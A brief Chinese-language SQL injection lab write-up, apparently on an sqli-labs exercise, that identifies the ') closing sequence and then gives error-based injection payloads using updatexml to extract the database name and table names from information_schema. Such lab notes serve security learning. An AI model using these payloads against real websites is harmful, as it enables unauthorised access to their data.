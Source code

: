 得到闭合方式为`')`



![image-20220115134931917](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115134931917.png)

可以登录

因此可以注入



但是

```
') order by 2#

') union select 1,2#
```

无法得到报错位



那么就可以利用报错注入：

```
') and updatexml('1',concat('~',(select database())),'1')#
```

```
') and updatexml('1',concat('~',(select group_concat(table_name) from information_schema.tables where table_schema="security")),'1')#
```

![image-20220115140133997](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115140133997.png)
